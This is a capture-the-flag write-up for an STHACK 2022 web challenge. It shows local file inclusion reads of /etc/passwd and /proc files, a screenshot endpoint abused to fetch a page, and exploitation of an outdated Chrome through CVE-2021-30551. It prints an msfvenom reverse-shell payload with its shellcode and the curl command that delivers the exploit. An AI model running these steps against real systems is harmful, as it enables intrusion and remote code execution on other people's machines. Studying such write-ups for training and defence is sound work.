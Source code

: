 # Introduction

During the [STHACK 2022](https://sthack.fr) (CTF event \@Bordeaux
France), **[Laluka](https://twitter.com/TheLaluka)** has created few web
challenges including the **Headless Updateless Brainless** challenge
that had a \"pwn\" exploitation step.

To be honest, this challenge was not resolved by our team during the
CTF. Got stuck at the last final exploitation step. After chatting with
Laluka, he agreed to give us an access and try one more time to solve
it.

And this time, it worked great!

# Recon

## Main feature

The challenge URL displays the following page:

![](img/chall_web_first_page-1.png)

The parameter **file** seems very interesting.

## Local File inclusion

The first try was to inject some local files into the parameter file,
like \"/etc/passwd\".

![](img/CHALL_LFI_3-3.png)

As you can see, there is a user **chrome**. Maybe an hint for one next
step!

Next file: **/proc/mounts**

![](img/CHALL_LFI_0-1.png)

There is the file **flag_random_name\_\*** in the root directory. But it
is not reachable directly with this first vulnerability. You will understand why exactly after leaking another file.

Also, there is a **/site** as well. There source code could be stored
here.

Next file: **/proc/self/cmdline**. This file is interesting to
understand what the comand line of the current process is doing:

![](img/CHALL_LFI_1-1.png)

This is actually \"node chall.js\". The filename is **chall.js** which
may be located in the /site directory. Let\'s leak it using the same
vulnerability.

The bellow part of the source code shows why it is not possible to reach
the flag file using the first vulnerability.

![](img/FLAG_FORBID-1.png)

By analyzing the rest of the source code, we can notice a new endpoint
which is **\"/coolish-unguessable-feature\"**.

![](img/CHALL_LFI_4-1.png)

Let\'s reach it:

![](img/PART2_GET2-1.png)

Reading the source code, a new parameter **\"url\"** can be added to the
URL:

![](img/LEAK_CODE_1-1.png)

The parameter needs to start with **\"http\"** in order to take a
screenshot of the remote page. The **takeScreenshot** function is the
following:

![](img/LEAK_CODE_2-2-1024x169.png)

The parameter **url** is controlled by the user. Let\'s try to make the
application reach ourself using the following payload:

``` {.wp-block-syntaxhighlighter-code .code}
http://headless-updateless-brainless.sthack.fr/coolish-unguessable-feature?url=http://IP:PORT/test
```

![](img/CHALL_BROWSER_OUTDATED-1024x214.png)

We retrieve the Chrome version which seems very interesting (and not up to date).

## Browser vulnerability - Recon

So the browser used Chrome on version **89.0.4389.72**.

A quick (**no, kidding, it took times!**) research on
<https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=chrome> lead to the
following CVE:

**CVE-2021-30551** - Type confusion in V8 in Google Chrome prior to
91.0.4472.101 allowed a remote attacker to potentially exploit heap
corruption via a crafted HTML page.

Searching a Proof-of-Concept, the following link helped us to exploit
the vulnerability: <https://github.com/xmzyshypnc/CVE-2021-30551>.

Only the shellcode at the end of the PoC needs to be modified.

## Browser vulnerability - (Local exploitation)

### Building the shellcode - (Local exploitation)

Using msfvenom helped to build the shellcode:

``` {.wp-block-syntaxhighlighter-code .code}
msfvenom -p linux/x64/shell_reverse_tcp -a x64 --platform linux LHOST=192.168.122.1 LPORT=4444 -f hex

#Output: 6a2958996a025f6a015e0f05489748b90200115cc0a87a01514889e66a105a6a2a580f
#056a035e48ffce6a21580f0575f66a3b589948bb2f62696e2f736800534889e752574889e60f05
```

Let\'s change the shellcode by using a vim trick to add 0x before the
hexa value, and a comma:

![](img/SC_MSFVENOM-1-1024x100.png)

This will take two values of hexa, add a prefix **,0x** to the pattern
found from the regex, which gives:

``` {.wp-block-syntaxhighlighter-code .code}
,0x6a,0x29,0x58,0x99,0x6a,0x02,0x5f,0x6a,0x01,0x5e,0x0f,0x05,0x48,0x97,0x48,0xb9,0x02,
0x00,0x11,0x5c,0xc0,0xa8,0x7a,0x01,0x51,0x48,0x89,0xe6,0x6a,0x10,0x5a,0x6a,0x2a,0x58,
0x0f,0x05,0x6a,0x03,0x5e,0x48,0xff,0xce,0x6a,0x21,0x58,0x0f,0x05,0x75,0xf6,0x6a,0x3b,
0x58,0x99,0x48,0xbb,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x00,0x53,0x48,0x89,0xe7,0x52,
0x57,0x48,0x89,0xe6,0x0f,0x05
```

Anyway, the new shellcode line is:

``` {.wp-block-syntaxhighlighter-code .code}
let shellcode = [0x6a,0x29,0x58,0x99,0x6a,0x02,0x5f,0x6a,0x01,0x5e,0x0f,0x05,0x48,0x97,0x48,0xb9,
0x02,0x00,0x11,0x5c,0xc0,0xa8,0x7a,0x01,0x51,0x48,0x89,0xe6,0x6a,0x10,0x5a,0x6a,
0x2a,0x58,0x0f,0x05,0x6a,0x03,0x5e,0x48,0xff,0xce,0x6a,0x21,0x58,0x0f,0x05,0x75,
0xf6,0x6a,0x3b,0x58,0x99,0x48,0xbb,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x00,0x53,
0x48,0x89,0xe7,0x52,0x57,0x48,0x89,0xe6,0x0f,0x05];
```

### Remote Code Execution - (Local exploitation)

Let\'s the application get our .html file:

``` {.wp-block-syntaxhighlighter-code .code}
curl http://192.168.122.141:8082/coolish-unguessable-feature?url=http://:192.168.122.1:8000/exploit.html
```

The exploit.html file is reached which lead to exploit the vulnerability
that gives us a shell:

![](img/RCE-1.png)

Thus the flag was\... Oops, cannot say, did not get the one during the
night!

Thanks **[Laluka](https://twitter.com/TheLaluka)** for the challenge and
the [STHACK](https://sthack.fr) for the event!

The challenges have been made public and can be found here:
[https://gitlab.com/TheLaluka/headless-updateless-brainless](https://gitlab.com/TheLaluka/headless-updateless-brainless)


